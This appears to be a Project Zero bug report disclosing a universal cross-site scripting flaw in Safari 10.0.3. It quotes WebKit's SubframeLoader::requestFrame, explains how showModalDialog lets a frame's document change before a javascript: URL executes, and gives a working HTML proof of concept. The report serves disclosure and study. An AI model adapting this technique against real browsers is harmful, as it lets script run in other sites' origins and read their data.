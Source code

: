 # UXSS via a synchronous page load

### Reported by <mailto:lokihardt@google.com>, Feb 9 2017

Here's a snippet of the method SubframeLoader::requestFrame which is invoked when the |src| of an iframe object is changed.

```cpp
bool SubframeLoader::requestFrame(HTMLFrameOwnerElement& ownerElement, const String& urlString, const AtomicString& frameName, LockHistory lockHistory, LockBackForwardList lockBackForwardList)
{
    // Support for <frame src="javascript:string">
    URL scriptURL;
    URL url;
    if (protocolIsJavaScript(urlString)) {
        scriptURL = completeURL(urlString); // completeURL() encodes the URL.
        url = blankURL();
    } else
        url = completeURL(urlString);

    if (shouldConvertInvalidURLsToBlank() && !url.isValid())
        url = blankURL();

    Frame* frame = loadOrRedirectSubframe(ownerElement, url, frameName, lockHistory, lockBackForwardList); <<------- in here, the synchronous page load is made.
    if (!frame)
        return false;

    if (!scriptURL.isEmpty())
        frame->script().executeIfJavaScriptURL(scriptURL); <<----- boooom

    return true;
}
```

A SOP violation check is made before the above method is called. But the frame's document can be changed before `frame->script().executeIfJavaScriptURL` called. This can happen by calling `showModalDialog` that enters a message loop that may start pending page loads.

Tested on Safari 10.0.3(12602.4.8).

PoC:

```html
<body>
  <p>click anywhere</p>
  <script>
    window.onfocus = () => {
      window.onclick = null;

      f = document.createElement('iframe');
      f.src = 'javascript:alert(location)';
      f.onload = () => {
        f.onload = null;

        let a = f.contentDocument.createElement('a');
        a.href = 'https://abc.xyz/';
        a.click();

        window.showModalDialog(URL.createObjectURL(new Blob([`
<script>
let it = setInterval(() => {
    try {
        opener[0].document.x;
    } catch (e) {
        clearInterval(it);

        window.close();
    }
}, 100);
</scrip` + 't>'], {
          type: 'text/html'
        })));
      };

      document.body.appendChild(f);
    };

  </script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1121

